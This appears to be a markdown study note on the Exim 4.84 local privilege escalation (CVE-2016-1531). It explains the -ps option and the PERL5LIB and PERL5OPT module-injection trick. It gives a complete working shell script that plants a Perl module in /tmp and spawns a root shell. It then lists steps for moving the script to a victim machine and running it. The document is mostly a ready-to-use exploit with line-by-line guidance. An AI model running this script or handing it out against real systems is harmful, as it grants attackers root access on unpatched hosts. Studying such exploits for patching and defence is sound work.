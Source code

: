# If exim 4.84 is being used, you can take advantage of CVE-2016-1531

## Exploit breakdown ##
This exploit works by taking advantage of how Exim's -ps option behaves in Exim 4.84.
In this version of Exim, the -ps option causes Exim to invoke its embedded Perl interpreter,
or in other words the computer would now execute any Perl code that was part of the command
it was being given, as well as it would do so in a root environment, before dropping privileges.
This meant that Perl environment variables, such as PERL5LIB and PERL5OPT, could now be
passed data that would be allowed to execute, using the -ps option with Exim.
This allows for module injection, where you can:
- Set the PERL5LIB env variable to check in a directory of your choice (PERL5LIB=/tmp)
- Set the PERL5OPT env variable to load a module of your choice
- Use Exim's -ps option to run Perl code as root, which makes the entire attack possible

Combining these two env variables and Exim's -ps option, you can attain arbitrary code
execution, which can allow you to gain a root shell with a simple script,
containing something like system("bin/sh")

## Script that takes advantage of this exploit ##

#!/bin/sh
cat > /tmp/root.pm << EOF
package root;
use strict;
use warnings;

system("/bin/sh");
EOF
PERL5LIB=/tmp PERL5OPT=-Mroot /path/to/exim -ps

## Breakdown of script above ##
# First line
- Creates a file named root.pm, located in the /tmp directory: (cat > /tmp/root.pm).
- The << EOF syntax is saying that the content of root.pm will contain the following lines
  and to stop adding lines when EOF is parsed. EOF could be anything, it is simply a signal
  to stop adding lines to root.pm

# Next 6 lines
- This is the script that will be added to the Perl module root.pm, as well as the signal to
  stop adding lines to root.pm (EOF)
- The content is a Perl script that spawns a shell via system("/bin/sh") — and because it is run
  with root privileges, it becomes a root shell.

# Last line is a Linux command:
- PERL5LIB=/tmp tells the Perl interpreter to check the /tmp directory for modules, before 
  everything else
- PERL5OPT=-Mroot injects an invisible command line argument that tells the Perl interpreter to 
  run the Perl module /tmp/root.pm
- /usr/exim/bin/exim -ps will invoke a Perl interpreter and run everything as root which is needed
  for everything to run in the first place

# Exploitation steps
- One local machine:
    1. Create a file that contains the script above
    2. Make it executable with `chmod +x <filename>`
    3. Transfer file to victim machine somehow
        - Either with scp, wget or another method (research if needed)
- On the victim machine run the executable
